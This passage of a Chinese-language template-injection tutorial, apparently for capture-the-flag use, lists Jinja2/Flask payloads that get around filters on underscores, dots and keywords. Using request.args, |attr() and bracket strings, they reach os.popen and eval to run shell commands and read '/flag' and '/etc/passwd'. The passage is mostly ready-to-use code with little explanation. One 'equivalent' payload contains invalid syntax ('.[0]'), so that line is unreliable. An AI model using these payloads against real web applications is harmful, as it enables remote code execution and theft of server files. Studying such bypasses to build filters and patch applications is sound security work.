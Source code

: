 如果过滤了args，可以将其中的request.args改为request.values，POST和GET两种方法传递的数据request.values都可以接收。

#### 过滤了下划线__

**利用request对象绕过**

```
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 过滤了点 .

**利用 `|attr()` 绕过（适用于flask）**

如果 `.` 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数`attr()`，即：

```
().__class__   =>  ()|attr("__class__")
```

示例：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**利用中括号[ ]绕过**

如下示例：

```
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

**这样的话，那么 `__class__`、`__bases__` 等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。**
